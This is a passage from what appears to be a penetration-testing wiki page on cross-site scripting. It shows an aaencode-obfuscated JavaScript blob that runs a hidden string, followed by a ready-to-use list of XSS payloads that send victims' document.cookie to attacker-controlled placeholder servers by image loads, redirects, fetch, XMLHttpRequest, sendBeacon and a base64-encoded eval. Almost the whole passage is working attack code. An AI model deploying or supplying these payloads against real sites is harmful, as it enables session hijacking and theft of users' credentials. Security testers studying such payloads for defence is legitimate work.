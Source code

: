 ```javascript
//aaencode
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
```

```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```

## XSS common payloads

### Several payloads in 1

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### Retrieve Cookies

```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```